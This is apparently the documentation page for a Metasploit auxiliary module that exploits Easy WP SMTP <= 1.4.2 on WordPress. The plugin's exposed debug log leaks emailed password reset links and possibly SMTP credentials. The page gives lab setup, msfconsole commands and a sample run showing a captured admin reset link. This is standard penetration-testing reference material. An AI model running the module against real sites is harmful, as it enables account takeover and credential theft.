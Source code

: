 ## Vulnerable Application

Wordpress plugin Easy WP SMTP versions <= 1.4.2 was found to not include index.html within its plugin folder.
This potentially allows for directory listings.  If debug mode is also enabled for the plugin, all SMTP
commands are stored in a debug file.
Combining these items, it's possible to request a password reset for an account, then view the debug file to determine
the link that was emailed out, and reset the user's password.

This module will list ALL reset links, most likely the last one is the one that will work, however there
may be value in the others as well (such as other users).  The debug log saved in loot may also contain
the SMTP username and password.

To summarize:

1. Vulnerable version of Easy WP SMTP
1. debug turned on for Easy WP SMTP
1. SMTP configured for Easy WP SMTP
1. direcotry listings enabled

### Install

1. Install wordpress
1. Download and install [Easy WP SMTP](https://wordpress.org/plugins/easy-wp-smtp/advanced/) <= 1.4.2
1. Browse to Settings > Easy WP SMTP
    1. Configure the plugin (SMTP Host, SMTP Port, UN/PASS)
    1. Additional Settings > Enable Debug Log (Check this value, click Save Changes)

## Verification Steps

1. Install Wordpress, Easy WP SMTP, and configure it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_easy_wp_smtp`
1. Do: `set rhost [ip]`
1. Do: `set USER [username]`
1. Do: `run`
1. You should get the link to reset the user's password

## Options

### User

The username to reset the password of

## Scenarios

### Easy WP SMTP 1.4.1 on Wordpress 5.4.4 running on Ubuntu 20.04

```
resource (wp_easy_wp_smtp.rb)> use auxiliary/scanner/http/wp_easy_wp_smtp
resource (wp_easy_wp_smtp.rb)> set verbose true
verbose => true
resource (wp_easy_wp_smtp.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (wp_easy_wp_smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version detected
[+] Found debug log: /wp-content/plugins/easy-wp-smtp/5fcfd49e879f9_debug_log.txt
[*] Sending password reset for Admin
[+] Debug log saved to /home/h00die/.msf4/loot/20201208204705_default_1.1.1.1_5fcfd49e879f9_de_209239.txt.  Manual review for possible SMTP password, and other information.
[*] admin password reset: http://1.1.1.1/wp-login.php?action=rp&key=IdlSwWkIuy0f7k79OU2p&login=admin
[*] Finished enumerating resets.  Last one most likely to succeed
[*] Scanned 1 of 1 hosts (100% complete)
```
